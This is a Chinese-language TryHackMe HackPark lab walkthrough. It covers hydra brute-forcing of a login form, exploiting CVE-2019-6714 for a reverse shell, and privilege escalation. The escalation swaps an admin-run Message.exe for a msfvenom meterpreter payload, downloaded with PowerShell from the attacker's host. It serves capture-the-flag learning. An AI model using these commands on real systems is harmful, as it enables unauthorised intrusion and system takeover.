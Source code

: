 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme HackPark hydra利用/"}
---
```



## hydra
首先需要找到要攻击的登录页面，并确定表单向 Web 服务器发出的请求类型。通常，Web 服务器发出两种类型的请求，一种是用于从 Web 服务器请求数据的 GET 请求，另一种是用于将数据发送到服务器的 POST 请求。

```
hydra -l admin -P /home/kali/下载/rockyou.txt 10.10.182.107 http-post-form "/Account/login.aspx:__VIEWSTATE=bHtBaxeGBDVWuciTbSdua413rA52xSgfkZOpp5pNtd5L%2BW7JJ3rvmGnQVBQ8WPa7K8F2frmzFWSruzLRe4eeOztkJmkDqgCe25QYJDTnYWAYtza%2FtAA1cpniPjfDU%2Fj6KEP5BAgqgEMcfM4RzcNjT2LOoXNpqlVLIhCalMEi0sd9N1Cg6OPXdUfSzSV0BSFtzjJf%2BHI5q%2B%2F3NMaqOgLCDDAwoXVpZ21o49k%2BzJO9lAgrX5Y4AnGS0zZNOAi2OBE0b%2BmrUFGeqVGH9k5gOjGRKSQ0MwmhrJvxMFscjYFKMUFpbqdyCmA7v9lWloXZu4Qmo6mBSXhX2QJJWt%2FKqloofGoP9DbGXhLVYooLTL2EQ8S%2B%2F8k2&__EVENTVALIDATION=ixozvy91Xs5g5EMUDPd8KdKFouaqL9lzCy75PtarrcKQrEOquCkd6LJit1G8QX5i8B17f088XJj%2BUKh5yGN4OJCIvhNU%2FgzXfSH8L1t%2FlVU7luLVvSYJR0J9mQW8ym7mHRBw0Erdw1AvDkRIoXqL14dMowAJOzseIIrMMdGp%2BQOf6N30&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
```

在这里我们需要f12找到网络中的请求包 将完整的request作为hydra需要的参数 要注意UserName=^USER^和Password=^PASS^需要改成^USER^和^PASS^ 不能是自己输入的参数

![image.png](https://s2.loli.net/2025/04/18/BJNz21SVRphGqCo.png)

![image.png](https://s2.loli.net/2025/04/18/sd9wpTcCQOqbWg7.png)

破解成功

## 漏洞攻击
接下来根据漏洞 攻击



CVE-2019-6714 下载cs文件之后需要把ip改成自己vpn分配的ip 修改完成之后将名字改为PostView.ascx

上传成功之后在靶机ip/?theme=../../App_Data/files就能反弹shell


![image.png](https://s2.loli.net/2025/04/18/RzSrhFnveKjBTfx.png)


![image.png](https://s2.loli.net/2025/04/18/t9MdyKXCgWpBQIh.png)

我们这里已经获得了shell 我们需要拓展一下 拓展到msf中 我们写一个msfvenom 用python传到靶机上 运行exe文件 就能获得msf的终端

## msf权限提升
用multi/handler来获得shell
![image.png](https://s2.loli.net/2025/04/18/QVh5xquJWUkMLnG.png)

![image.png](https://s2.loli.net/2025/04/18/gICMmUkhu3zjLfi.png)

这个问题有点意思 我是没接触过 学习学习一下思路


在meterpreter用了ps查看进程

用了winpea来直接扫描

发现一个WindowsScheduler
![image.png](https://s2.loli.net/2025/04/18/Be19fUNSyFtOHoL.png)

sc qc检查一下 也没啥收获 到他所在的路径看一下
![image.png](https://s2.loli.net/2025/04/18/PhLDlbp2x3MWG9w.png)

![image.png](https://s2.loli.net/2025/04/18/FX26SAUTHxu5aQt.png)

有个事件文件 检查一下这个文件

![image.png](https://s2.loli.net/2025/04/18/I3rMpbc5sOPQ1vX.png)

事件中有个message.exe 用的还是管理员权限 应该没毛病了

![image.png](https://s2.loli.net/2025/04/18/X5w18WvqVkdFHPs.png)

接下来是两个flag

利用异常服务及其对应的二进制文件进行提权。

有点东西了

后面的其中一个思路就是msfvenom重新创建一个Message.exe来替换掉原本的 就是替换掉原本有管理权限的exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.40.203 LPORT=6666 -e x86/shikata_ga_nai -f exe -o Message.exe
```

用powershell上传成功

```
powershell -c wget "http://10.17.40.203:8000/Message.exe" -outfile "Message1.exe"
```

![image.png](https://s2.loli.net/2025/04/18/rya1OslE9phSomT.png)

把原本的文件替换掉

```
mv Message.exe Message.exe.bak

mv Message1.exe Message.exe
```

替换完就可以run一下msf的反弹模块

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.17.40.203
set LPORT 6666
run
```

![image.png](https://s2.loli.net/2025/04/18/XG2ElbfTDveMCuy.png)
成功获得管理员权限

有管理员权限就能一下子获得两个flag